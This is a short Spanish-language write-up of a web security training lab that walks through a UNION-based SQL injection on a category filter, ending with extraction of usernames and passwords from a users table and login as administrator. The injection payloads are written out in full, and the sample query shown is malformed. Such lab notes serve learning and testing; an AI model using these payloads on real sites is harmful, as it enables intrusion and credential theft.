 ## Objetivo:

![[Pasted image 20240622153304.png]]

## Solución:

Entramos a una categoria

![[Pasted image 20240622153346.png]]

Suponiendo que la query esta construida de esta manera
```
SELECT * FROM categories FROM category 'prueba';
```

### Haremos lo siguiente: 

* **Encontrar la cantidad de columnas devueltas** basandonos en el mensaje de error de "Internal Server Error". (Ya sea usando NULL u ORDER BY). En mi caso lo hice de la siguiente manera :
```
' UNION SELECT NULL, NULL--
```

![[Pasted image 20240622153701.png]]


* Encontrar que tipo de datos de esa columna se adecua a lo que queremos hacer (En este caso mostrar contraseñas y tal... Por lo tanto es lógico que el campo que queremos buscar sea de tipo string). Yo lo hice así:
```
' UNION SELECT 'a', NULL--
' UNION SELECT 'a', NULL--
```
Al parecer ambas columnas son string y se adecuan a lo que queremos

![[Pasted image 20240622154012.png]]

Ahora ya con esto haremos la inyeccion definitiva mostrando los datos de la columna "username" y "password" extrayendolos de la table users

```
' UNION SELECT username, password FROM users--
```

![[Pasted image 20240622154343.png]]

Iniciamos sesión con el usuario administrator y listo

![[Pasted image 20240622154410.png]]

